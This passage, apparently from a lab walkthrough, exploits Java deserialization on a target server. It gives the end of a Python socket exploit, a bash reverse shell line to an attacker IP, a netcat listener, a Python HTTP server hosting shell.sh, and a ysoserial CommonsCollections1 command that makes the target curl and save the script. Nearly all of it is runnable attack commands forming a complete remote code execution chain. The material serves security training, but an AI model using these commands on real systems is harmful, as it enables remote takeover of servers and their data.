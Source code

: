 ```python
print('received "%s"' % data)

sock.close()
```

Step 5: Create a reverse shell payload.

Copy and paste the command into a file and save it as shell.sh.

Syntax: 
```bash
bash -i >& /dev/tcp/<lhost>/<lport> 0>&1
```

Command:
```bash
bash -i >& /dev/tcp/192.24.161.2/9999 0>&1
```

Step 6: Setup a Netcat listener that will be listening for connections on port 9999.

Command:
```bash
nc -lvp 9999
```



Step 7: Host the shell.sh file using a Python SimpleHTTPServer. In the same directory where the file is present, execute the below.

Command:
```bash
python -m SimpleHTTPServer 8888
```



Step 8: Generate a payload with a ysoserial file and make the target machine download the shell.sh file from attacker machine.

Command:
```bash
java -jar ~/Desktop/tools/ysoserial/ysoserial-master-SNAPSHOT.jar CommonsCollections1 "curl http://192.24.161.2:8888/shell.sh -o /tmp/shell.sh" > /root/payload.out
```



Step 9: Execute the python exploit code.

Usage: python exploit.py <host> <port> </path/to/payload>

Command:
```bash
python exploit.py 192.24.161.3 8080 /root/payload.out
```


This result from the python server shows that shell.sh file is downloaded by the target machine, and the payload is working as expected.

